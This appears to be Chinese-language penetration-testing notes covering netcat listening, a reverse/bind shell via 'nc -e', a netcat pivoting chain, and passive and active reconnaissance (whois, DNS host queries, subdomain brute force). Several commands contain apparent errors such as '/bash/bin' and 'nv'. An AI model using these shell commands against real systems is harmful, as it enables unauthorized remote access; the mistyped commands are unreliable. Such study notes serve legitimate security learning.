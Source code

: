 ## 监听流量
```
server nc -nvlp IP_ADDRESS port
client nc -nv IP_ADDRESS port
```

## 反弹shell
```
client nc -nvlp 4444 -e /bash/bin
server nc -nvlp 127.0.0.1 4444
```

## 内网穿透
```
1. nc -nvlp 5555 -e bash
2. nc -nvp 3333 -L 127.0.0.1:4444
3. nc -nvp 4444 -L 127.0.0.1:5555
4. nv -nv 127.0.0.1:3333
```
# PowerShell
$PSVersiontable


# 被动信息收集
```
也称开源情报 OSINT
在不与目标系统交互的情况下, 利用开放信息渠道搜索目标系统信息
是一个循环非线性的过程, 下一步如何攻击, 由前一步收集到的信息决定
信息收集途径, 渠道(第三方信息)
在渗透测试过程中并非一定必须
终极目标是了解目标系统, 扩大发现面
利用漏洞/社工/密码破解
```

- 初期发现的一切信息做好笔记
- WEB侦查, WEB站点会泄露大量的信息, 并长期观察疏于维护的系统
- 发现媒体账号, 员工邮箱, Twitter账号

Whois信息枚举
  - 基于TCP服务, 可以查询域名, 域名服务器, 注册者等公开信息
  - kali@kali: $whois domain.com
  - 关注Register name, Admin name, Tech Name, Name Server, 电话邮件, 地址等

反查IP地址(地址所有者)
  - whois [IP_ADDRESS]

# 主动信息收集
- DNS枚举
  域名解析
  host domain.com
  host -t mx domain.com 查询mx记录
  host -t txt domain.com 查询txt记录
  host idontexist.domain.com 爆破域名
